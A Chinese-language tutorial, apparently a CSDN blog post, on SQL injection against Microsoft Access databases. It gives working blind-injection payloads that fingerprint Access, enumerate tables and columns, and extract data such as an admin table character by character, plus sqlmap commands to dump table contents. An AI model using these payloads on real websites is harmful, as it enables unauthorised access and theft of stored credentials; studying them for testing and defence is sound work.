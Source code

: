 **目录**

[Access数据库](#t0)

[Access数据库中的函数](#t1) 

[盲注Access数据库](#t2) 

[Sqlmap注入Access数据库](#t3)

* * *

Access数据库
---------

**Microsoft Office Access**是由微软发布的[关系数据库](https://so.csdn.net/so/search?q=%E5%85%B3%E7%B3%BB%E6%95%B0%E6%8D%AE%E5%BA%93&spm=1001.2101.3001.7020)管理系统。Microsoft Office Access是微软把数据库引擎的图形用户界面和软件开发工具结合在一起的一个数据库管理系统。它是微软Office家族的一个成员。Access以它自己的格式将数据存储在基于Access Jet的数据库引擎里。Access数据库属于文件型数据库，所以不需要端口号。

在Office 2007之前的Access数据库文件的后缀是 **.mdb** ，Office2007及其之后的Access数据库文件的后缀是 **.accdb** 。

Access数据库中没有注释符号.因此  /\*\*/   、 --   和   #   都没法使用。

Access是小型数据库，当容量到达100M左右的时候性能就会开始下降。

Access数据库不支持错误显示注入，Access数据库不能执行系统命令。

数据库文件打开工具：**辅臣数据库浏览器**

Access数据库的连接

```
"Driver={Microsoft Access driver(*.mdb)};dbq=*;uid=admin;pwd=pass;"
```


### Access数据库中的函数 

```
select len("string")        查询给定字符串的长度      
select asc("a")             查询给定字符串的ascii值      
top  n                      查询前n条记录      
select mid("string",2,1)    查询给定字符串从指定索引开始的长度
```


mid(string,start,length) 这个用来截取字符串的

*       string是要截取的字符串
*       start是截取的字符串开始索引
*       length是要截取的字符串长度 

### 盲注Access数据库 

Access数据库特有的表是：**msysobjects**  ，所以可以用它来判断是否是Access数据库

```
exists(select*from msysobjects)  #如果这条语句正确，说明是Access数据库
```


Access没有数据库的概念，所有的表都是在同一个数据库下。所以，我们不用去判断当前的数据库名，并且access数据库中也不存在 database() 函数。

对于判断存在哪些表，只能用以下**枚举**的方法来猜测是否存在某某表。 

```
判断存在sql注入后，判断是否存在admin表，如果存在，正常查询，如果不存在，报语法错误。然后通过枚举表名爆破      
and exists(select* from  admin)
```


猜测字段也是一样，只能通过枚举来猜测 

```
判断有admin表后，再判断admin表有多少列，假如1-10正常查询，11列报语法报错，那说明有10列      
and exists(select*from admin order by 10)      
判断出存在的列数后，再判断具体的列名。以下语句判断是否存在name列，如果存在，正常查询，如果不存在，则报语法错误。然后再通过枚举列名爆破      
and exists(select name from admin)
```


猜测完表名和字段名后，我们就看看这个表里面有多少行数据 ，如果>99查询正确，>100查询错误(这里是查询错误，而不是语法错误)，说明有100行数据

```
and (select count(*) from information)>100
```


然后在猜测每个字段具体的数据了 

access数据库中没有 limit，就不能限制查询出来的行数。但是我们可以使用top命令，top 1是将查询的所有数据只显示第一行，所以 top3就是显示查询出来的前三行数据了

```
猜测admin列的第一个数据的长度，如果大于5查询不出数据，大于4正常，说明admin列的第一个数据长度是5      
and (select top 1 len(admin)from admin)>5       
猜测admin列的第一行数据的第一个字符的ascii码值，如果大于97查询不出数据，大于96正常，说明admin列的第一行数据的第一个字符的ascii值是97      
and (select top 1 asc(mid(admin,1,1))from admin)>97       
第一行数据的第二个字符      
and (select top 1 asc(mid(admin,2,1))from admin)>97        
从第二行开始，查询数据就得用另外的语句了,因为这里的top只能显示查询前几条数据，所以我们得用联合查询，先查询前两条，然后倒序，然后在找出第一条，这就是第二条数据。      1
查询第二行admin列的长度      1
and (select top 1 len(admin)  from ( select top 2 * from information order by id)  order by id desc)>55      1
下面是查询第2条数据的第3个字符      1
and (select top 1 asc(mid(admin,3,1))  from ( select top 2 * from information order by id)  order by id desc)>55      1
查询第三条数据的4个字符      1
and (select top 1 asc(mid(admin,4,1))  from ( select top 3 * from information order by id)  order by id desc)>55
```


注：在access中，中文也可以用asc函数来表示，例如：asc(mid("中国",1)) 表示 中 字的ascii值，可以用 chr 来逆向得出值

```
asc("中") = -10544      
chr(-10544) = 中
```


### Sqlmap注入Access数据库

**爆出access数据库存在的表**，只能利用枚举的方式爆破。

```
sqlmap -u "xxx"  --tables
```


第一步问我们是否使用公共的库去爆破，我们选择：Y；

第二步选择默认的库文件：1 

第三步选择线程数：10

![](https://img-blog.csdnimg.cn/20190307153027569.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

可以看出爆出了两个数据表：admin 、 specialty

**爆出admin数据库中的列名**

```
sqlmap -u "xxx" -T admin --columns
```


意思和上一步也是一样的。 

![](https://img-blog.csdnimg.cn/2019030715315053.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**爆出admin表下username列的所有数据**

```
sqlmap -u "xxx" -T admin -C username --dump-all
```


相关文章：[整理比较全的Access SQL注入参考](https://www.jb51.net/article/14600.htm)

                  [Sqlmap使用详解](https://blog.csdn.net/qq_36119192/article/details/84479207)

                  [SQL注入漏洞详解](https://blog.csdn.net/qq_36119192/article/details/81987834)